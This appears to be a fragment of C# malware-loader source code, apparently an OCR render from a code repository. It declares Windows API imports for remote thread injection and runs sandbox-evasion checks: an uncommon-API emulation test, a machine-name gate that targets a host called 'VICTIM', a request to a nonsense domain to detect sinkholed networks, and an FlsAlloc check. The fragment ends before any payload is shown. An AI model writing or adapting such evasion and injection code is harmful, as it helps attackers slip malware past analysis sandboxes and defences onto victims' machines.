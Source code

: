             [DllImport("kernel32.dll")]
            static extern IntPtr CreateRemoteThread(IntPtr hProcess, IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);

            [DllImport("kernel32.dll")]
            static extern void Sleep(uint dwMilliseconds);

            [DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
            static extern IntPtr VirtualAllocExNuma(IntPtr hProcess, IntPtr lpAddress, uint dwSize, UInt32 flAllocationType, UInt32 flProtect, UInt32 nndPreferred);

            [DllImport("kernel32.dll")]
            static extern IntPtr GetCurrentProcess();
            [DllImport("kernel32.dll", SetLastError = true)] static extern IntPtr FlsAlloc(IntPtr callback);

            public static void injector()
            {
                // Check if we're in a sandbox by calling a rare-emulated API
                if (VirtualAllocExNuma(GetCurrentProcess(), IntPtr.Zero, 0x1000, 0x3000, 0x4, 0) == IntPtr.Zero)
                {
                    return;
                }

                //PE name check:
                //string exename = "BasicRunner";
                //if (Path.GetFileNameWithoutExtension(Environment.GetCommandLineArgs()[0]) != exename)
                //{
                //    Console.WriteLine(Path.GetFileNameWithoutExtension(Environment.GetCommandLineArgs()[0]));
                //    return;
                //}

                //Machine name check:
                if (Environment.MachineName != "DEVELOPMENT" && Environment.MachineName != "VICTIM")
                {
                    Console.WriteLine(Environment.MachineName);
                    return;
                }

                //Web request to fake domain check:
                try
                {
                    HttpWebRequest req = (HttpWebRequest)WebRequest.Create("http://sldkfjsdkfjdskfjsldkfjlsdjfyyue.com/");
                    HttpWebResponse res = (HttpWebResponse)req.GetResponse();
                    if (res.StatusCode == HttpStatusCode.OK)
                    {
                        return;
                    }
                }
                catch (WebException we)
                {
                    Console.WriteLine("\r\nWeb Exception as Expected. Error: {0}", we.Status);
                }

                //Another emulated API check:
                IntPtr ptrCheck = FlsAlloc(IntPtr.Zero);
                if (ptrCheck == null)
                {
                    return;
                }
